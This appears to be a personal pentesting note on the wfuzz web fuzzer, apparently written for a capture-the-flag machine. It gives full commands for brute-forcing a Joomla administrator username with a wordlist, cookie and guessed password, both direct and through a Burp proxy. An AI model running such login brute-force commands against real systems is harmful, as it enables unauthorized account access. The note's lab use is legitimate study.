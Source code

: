 # 💢 wfuzz
Tags: #💢
Related to: 
See also: 
Previous: [[Web Crawlers & Directory Bruteforce]]

---
## Description

Wfuzz is a tool designed for bruteforcing Web Applications, it can be used for finding resources not linked (directories, servlets, scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters (User/Password), Fuzzing,etc.

## Usage Examples

###  Bruteforce username using wfuzz and a custom wordlist

	wfuzz -h

#### Replaces anywhere FUZZ is in all caps with a line from wordlist

##### Not proxied through burp

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' http://10.129.171.59/administrator/index.php

```
-w cewl.out										// wordlist
-c												// color output  
-d 												// post data  
-b												// cookie  
-p												// proxy (burp)  
http://10.129.161.239/administrator/index.php	// target

You can exclude results with one of the following:  

--hl 114										// hide results using 114 lines.  
--hc 200										// hide results using 200 response code.

After getting a correct login, you get an authentication cookie which may then cause the remaining items in the wordlist to return success responses.
```

##### Proxied through burp

Note: If you're going to proxy wfuzz through burp, make sure the ip and port match the options!

Proxy => Options => Proxy Listeners => 127.0.0.1:8080

	fuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' -p 127.0.0.1:8080 http://10.129.171.59/administrator/index.php

---
## References
- https://tools.kali.org/web-applications/wfuzz